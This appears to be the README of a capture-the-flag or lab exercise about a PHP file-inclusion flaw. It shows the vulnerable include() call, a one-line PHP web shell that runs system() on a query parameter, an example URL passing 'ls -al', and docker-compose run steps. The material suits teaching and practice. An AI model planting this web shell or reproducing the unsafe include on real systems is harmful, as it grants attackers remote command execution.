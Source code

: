 # php webshell by include
### 1) summary
flag is in the flag.txt

### 2) vulnerabilities
When the php file is passed to inlucde function, it is executed.
```
include($uploaded_file_path);
```

### 3) exploit
When the following code is executed by the include function, 
```php
<?php
    echo system($_GET["cmd"]);
?>
```
you can execute a Linux command by passing cmd as a query parameter
```
https://example.com?file=asfdbwr?cmd=ls -al;
```

### 4) How to run
Execute the following command in the location where the docker-compose.yml file is located
```
docker-compose up --build
```